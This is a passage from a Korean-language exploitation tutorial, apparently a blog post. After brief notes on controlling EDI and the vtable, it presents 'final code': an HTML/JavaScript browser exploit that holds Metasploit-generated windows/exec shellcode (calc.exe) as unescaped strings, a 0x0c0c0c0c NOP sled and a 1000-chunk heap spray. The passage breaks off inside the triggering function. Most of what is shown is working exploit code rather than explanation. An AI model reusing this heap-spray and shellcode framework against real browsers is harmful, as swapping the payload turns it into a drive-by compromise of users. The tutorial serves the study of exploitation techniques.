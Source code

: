 edi를 살펴보니 우리가 입력한 값이 제대로 들어간 것을 알 수 있습니다.

그럼 이제 남은 일은 HeapSpray로 쉘 코드를 Heap에 뿌려준 다음, vtable 값을 예측 가능한 주소로 할당하는 것입니다.

드디어 최종 코드입니다.

	
	<!doctype html>
	<html>
	<head>
	<SCRIPT language="JavaScript">
	function padnum(n, numdigits)
	{
	n = n.toString();
	var pnum = '';
	if (numdigits > n.length)
	{
	for (z = 0; z < (numdigits - n.length); z++)
	pnum += '0';
	}
	return pnum + n.toString();
	}
	var calc, chunk_size, headersize, nopsled, nopsled_len, code;
	var heap_chunks, i, codewithnum;
	//
	// ruby msfpayload windows/exec cmd=calc.exe J
	// windows/exec - 200 bytes
	// http://www.metasploit.com
	// VERBOSE=false, EXITFUNC=process, CMD=calc.exe
	//
	calc = unescape(
	"%ue8fc%u0089%u0000%u8960%u31e5%u64d2%u528b%u8b30" +
	"%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%uc031" +
	"%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf0e2%u5752" +
	"%u528b%u8b10%u3c42%ud001%u408b%u8578%u74c0%u014a" +
	"%u50d0%u488b%u8b18%u2058%ud301%u3ce3%u8b49%u8b34" +
	"%ud601%uff31%uc031%uc1ac%u0dcf%uc701%ue038%uf475" +
	"%u7d03%u3bf8%u247d%ue275%u8b58%u2458%ud301%u8b66" +
	"%u4b0c%u588b%u011c%u8bd3%u8b04%ud001%u4489%u2424" +
	"%u5b5b%u5961%u515a%ue0ff%u5f58%u8b5a%ueb12%u5d86" +
	"%u016a%u858d%u00b9%u0000%u6850%u8b31%u876f%ud5ff" +
	"%uf0bb%ua2b5%u6856%u95a6%u9dbd%ud5ff%u063c%u0a7c" +
	"%ufb80%u75e0%ubb05%u1347%u6f72%u006a%uff53%u63d5" +
	"%u6c61%u2e63%u7865%u0065");
	//
	chunk_size = 0x40000;
	headersize = 0x24;
	nopsled = unescape("%u0c0c%u0c0c"); // 0x7c376224 RETN [MSVCR71.dll]
	nopsled_len = chunk_size - (headersize + calc.length);
	while (nopsled.length < nopsled_len)
	nopsled += nopsled;
	nopsled = nopsled.substring(0, nopsled_len);
	code = nopsled + calc;
	heap_chunks = new Array();
	for (i = 0 ; i < 1000 ; i++)
	{
	codewithnum = padnum(i,4) + code;
	heap_chunks[i] = codewithnum.substring(0, codewithnum.length);
	} // heap spray
	function helloWorld(){
	var e0 = null;
	var e1 = null;
	var e2 = null;
